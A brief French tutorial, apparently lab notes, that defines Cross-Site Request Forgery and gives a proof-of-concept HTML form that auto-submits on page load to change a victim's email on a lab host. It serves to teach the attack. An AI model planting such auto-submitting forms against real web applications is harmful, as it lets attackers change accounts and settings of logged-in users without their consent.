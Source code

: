 # Cross-Site Resquest Forgery (CSRF)

est une attaque qui force un utilisateur final pour exécuter des actions indésirables sur une application Web dans laquelle ils se trouvent actuellement authentifié.

Les attaques CSRF ciblent les fonctionnalités qui provoquent un changement d'état sur le serveur, comme la modification de l'adresse e-mail ou du mot de passe de la victime, ou acheter quelque chose

> Les attaques CSRF ciblent les demandes de changement d’état. 

```html
<form action="http://tmc.lab/labs/csrf0x01.php" method="post">
    <div class="mb-3 form-group">
        <label for="email">Email</label>
        <input type="text" name="email" value="berty@gmail.com" class="form-control" id="email" aria-describedby="emailHelp" placeholder="Enter email">
    </div>
    <script type="text/javascript">
        window.onload = function(){
            document.forms[0].submit();
        }
    </script>
</form>
```


